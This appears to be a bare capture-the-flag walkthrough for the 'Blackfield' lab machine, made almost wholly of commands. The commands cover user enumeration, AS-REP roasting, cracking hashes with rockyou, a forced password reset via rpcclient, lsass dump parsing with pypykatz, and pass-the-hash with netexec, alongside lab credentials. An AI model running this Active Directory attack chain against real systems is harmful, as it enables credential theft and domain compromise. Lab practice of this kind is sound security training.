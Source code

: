 ```yaml
---
title: Blackfield
layout: default
---
```

```bash
impacket-lookupsid anonymous@blackfield.local -target-ip 10.10.10.192 | grep SidTypeUser | tr '\\' ' ' | awk '{print $3}'
```

```bash
impacket-GetNPUsers blackfield.local/ -no-pass -usersfile users.txt
```

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
support \ #00^BlackKnight
```

```
rpcclient -U support 10.10.10.192
setuserinfo2 AUDIT2020 23 'vDWkN&x4pE2cJ1Py0g1X'
```

```
AUDIT2020 \ vDWkN&x4pE2cJ1Py0g1X
```

```bash
smbclient //10.10.10.192/forensic -U AUDIT2020%'vDWkN&x4pE2cJ1Py0g1X'
```

```
recurse ON
prompt OFF
mget *
```

```bash
pypykatz lsa minidump lsass.dmp
```

```bash
netexec smb 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
```

